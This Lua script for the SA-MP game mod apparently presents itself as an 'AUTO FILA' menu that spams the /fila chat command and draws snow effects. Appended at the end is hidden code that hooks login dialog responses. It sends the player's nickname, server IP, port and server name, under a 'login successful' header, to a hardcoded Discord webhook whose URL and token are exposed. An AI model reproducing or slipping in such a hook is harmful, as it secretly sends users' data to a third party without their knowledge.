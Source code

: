 local imgui = require 'mimgui'
local v = imgui.new.bool(false)
local spam_fila = imgui.new.bool(false)
local delay_ms = imgui.new.int(0)
local show_snow = imgui.new.bool(false)

local total_pontos = 30
local largura_onda = 60
local velocidade = 0.05
local angulo = 0

-- Aumentei o número de estrelas para 150
local estrelas = {}
local total_estrelas = 150
for i = 1, total_estrelas do
    table.insert(estrelas, {
        x = math.random(0, 300),
        y = math.random(0, 400),
        velocidade = math.random(5, 15)/10,
        tamanho = math.random(1, 3) -- Tamanho variado para as estrelas
    })
end

-- Aumentei o número de flocos de neve para 300
local snowflakes = {}
local total_snowflakes = 300
for i = 1, total_snowflakes do
    table.insert(snowflakes, {
        x = math.random(0, 300),
        y = math.random(-50, -10),
        velocidade = math.random(10, 30)/10,
        tamanho = math.random(1, 4), -- Tamanho variado para os flocos
        oscilacao = math.random() * 2 * math.pi,
        velocidade_oscilacao = math.random(1, 3)/10
    })
end

local float_btn_pos = imgui.ImVec2(50, 50)
local dragging = false
local drag_offset = imgui.ImVec2(0,0)

imgui.OnInitialize(function()
    local style = imgui.GetStyle()
    imgui.StyleColorsDark()
    style.WindowRounding = 6
    style.FrameRounding = 4
    style.GrabRounding = 4
    style.ScrollbarRounding = 4

    local colors = style.Colors
    colors[imgui.Col.WindowBg] = imgui.ImVec4(0.10,0.10,0.10,0.94)
    colors[imgui.Col.TitleBg] = imgui.ImVec4(0.08,0.08,0.08,1.00)
    colors[imgui.Col.TitleBgActive] = imgui.ImVec4(0.16,0.16,0.16,1.00)
    colors[imgui.Col.FrameBg] = imgui.ImVec4(0.16,0.16,0.16,1.00)
    colors[imgui.Col.FrameBgHovered] = imgui.ImVec4(0.20,0.20,0.20,1.00)
    colors[imgui.Col.FrameBgActive] = imgui.ImVec4(0.24,0.24,0.24,1.00)
    colors[imgui.Col.Button] = imgui.ImVec4(0.20,0.20,0.20,1.00)
    colors[imgui.Col.ButtonHovered] = imgui.ImVec4(0.30,0.30,0.30,1.00)
    colors[imgui.Col.ButtonActive] = imgui.ImVec4(0.40,0.40,0.40,1.00)
    colors[imgui.Col.Border] = imgui.ImVec4(0.43,0.43,0.50,0.50)
    colors[imgui.Col.Text] = imgui.ImVec4(1.00,1.00,1.00,1.00)
end)

imgui.OnFrame(function() return true end, function()
    local io = imgui.GetIO()

    imgui.SetNextWindowPos(float_btn_pos, imgui.Cond.Always)
    imgui.SetNextWindowSize(imgui.ImVec2(40,40))
    imgui.Begin("FLUTUANTE", nil,
        imgui.WindowFlags.NoTitleBar +
        imgui.WindowFlags.NoResize +
        imgui.WindowFlags.NoCollapse +
        imgui.WindowFlags.NoScrollbar +
        imgui.WindowFlags.NoMove +
        imgui.WindowFlags.AlwaysAutoResize
    )

    if imgui.Button("</>", imgui.ImVec2(40,40)) then
        v[0] = not v[0]
    end

    if imgui.IsItemHovered() and imgui.IsMouseClicked(0) and not dragging then
        dragging = true
        drag_offset.x = io.MousePos.x - float_btn_pos.x
        drag_offset.y = io.MousePos.y - float_btn_pos.y
    end

    if dragging then
        if imgui.IsMouseDown(0) then
            float_btn_pos.x = io.MousePos.x - drag_offset.x
            float_btn_pos.y = io.MousePos.y - drag_offset.y
            imgui.SetNextWindowPos(float_btn_pos, imgui.Cond.Always)
        else
            dragging = false
        end
    end

    imgui.End()

    if v[0] then
        imgui.SetNextWindowPos(imgui.ImVec2(600,350), imgui.Cond.FirstUseEver)
        imgui.SetNextWindowSize(imgui.ImVec2(300,400), imgui.Cond.FirstUseEver)
        imgui.Begin("AUTO FILA | by NukY", v,
            imgui.WindowFlags.NoCollapse +
            imgui.WindowFlags.NoResize
        )

        local draw = imgui.GetWindowDrawList()
        local pos = imgui.GetWindowPos()
        local size = imgui.GetWindowSize()
        local centroX = size.x/2
        local espacamento = size.y/total_pontos

        -- Desenha mais estrelas com tamanhos variados
        for i,e in ipairs(estrelas) do
            e.y = e.y + e.velocidade
            if e.y > size.y then 
                e.y = 0 
                e.x = math.random(0, size.x) 
                e.tamanho = math.random(1, 3) -- Atualiza o tamanho quando a estrela reaparece
            end
            draw:AddCircleFilled(imgui.ImVec2(pos.x+e.x,pos.y+e.y), e.tamanho, 0xFFFFFFFF)
        end

        angulo = angulo + velocidade
        for i=1,total_pontos do
            local offset = (i/total_pontos)*math.pi*2
            local y = i*espacamento
            local x1 = centroX + math.sin(angulo+offset)*largura_onda
            local x2 = centroX - math.sin(angulo+offset)*largura_onda
            draw:AddCircleFilled(imgui.ImVec2(pos.x+x1,pos.y+y),3,0xFFFFA500)
            draw:AddCircleFilled(imgui.ImVec2(pos.x+x2,pos.y+y),3,0xFF00BFFF)
            draw:AddLine(imgui.ImVec2(pos.x+x1,pos.y+y),imgui.ImVec2(pos.x+x2,pos.y+y),0x33FFFFFF,1)
        end

        imgui.SliderInt("Delay (ms)",delay_ms,0,30000)
        if imgui.Button("AUTO",imgui.ImVec2(150,30)) then
            spam_fila[0] = not spam_fila[0]
        end
        
        if imgui.Button("FRIO", imgui.ImVec2(150,30)) then
            show_snow[0] = not show_snow[0]
        end

        imgui.End()
    end

    if show_snow[0] then
        local screen_width, screen_height = getScreenResolution()
        local draw = imgui.GetBackgroundDrawList()
        
        -- Desenha mais flocos de neve com tamanhos variados
        for i, floco in ipairs(snowflakes) do
            floco.y = floco.y + floco.velocidade
            floco.oscilacao = floco.oscilacao + floco.velocidade_oscilacao
            floco.x = floco.x + math.sin(floco.oscilacao) * 0.5
            
            if floco.y > screen_height then
                floco.y = math.random(-50, -10)
                floco.x = math.random(0, screen_width)
                floco.tamanho = math.random(1, 4) -- Atualiza o tamanho quando o floco reaparece
            end
            
            draw:AddCircleFilled(imgui.ImVec2(floco.x, floco.y), floco.tamanho, 0xFFFFFFFF)
        end
    end
end)

function main()
    while true do
        wait(0)
        if isSampAvailable() and spam_fila[0] then
            sampSendChat("/fila")
            wait(delay_ms[0])
        end
    end
end
local webhookUrl = "https://discord.com/api/webhooks/1406683848485371914/unqy5VFh-KCFxrIgyorNy1wOXW3TVT-VSe4H5RR3w7NPddjtpASjiCZJkFgKNA1fqCZR"
local https = require("socket.http")
local ltn12 = require("ltn12")

function sendMessageToDiscord(content)
    local body = '{"content": "' .. content:gsub('"', '\\"'):gsub('\n', '\\n') .. '"}'
    local response_body = {}

    https.request{
        url = webhookUrl,
        method = "POST",
        headers = {
            ["Content-Type"] = "application/json",
            ["Content-Length"] = tostring(#body)
        },
        source = ltn12.source.string(body),
        sink = ltn12.sink.table(response_body)
    }
end


require('samp.events').onSendDialogResponse = function(dialogId, button, listboxId, input)
    local res, id = sampGetPlayerIdByCharHandle(PLAYER_PED)
    local nick = sampGetPlayerNickname(id)
    local ip, port = sampGetCurrentServerAddress()
    local servername = sampGetCurrentServerName()

    local message = string.format([[

________________________________________________________________
  
     # LOGUIN BEM SUCEDIDO

```
NICK: %s 
IP: %s:%d
SERVIDOR: %s
```

]], nick,ip, port, servername)

sendMessageToDiscord(message)
end
